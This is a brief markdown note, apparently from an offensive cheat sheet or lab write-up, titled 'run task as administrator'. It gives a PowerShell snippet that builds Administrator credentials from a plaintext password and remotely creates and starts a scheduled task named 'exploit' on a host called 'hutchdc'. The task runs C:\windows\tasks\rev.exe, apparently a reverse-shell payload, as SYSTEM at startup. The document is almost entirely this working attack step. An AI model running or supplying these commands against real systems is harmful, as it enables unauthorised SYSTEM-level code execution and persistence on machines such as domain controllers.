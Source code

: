# run task as administrator 

## requirements

- credentials

## task

```powershell
$pw = ConvertTo-SecureString "some_password" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("Administrator", $pw)
Invoke-Command -Computer hutchdc -ScriptBlock { schtasks /create /sc onstart /tn exploit /tr C:\windows\tasks\rev.exe /ru SYSTEM } -Credential $creds
Invoke-Command -Computer hutchdc -ScriptBlock { schtasks /run /tn exploit } -Credential $creds
```
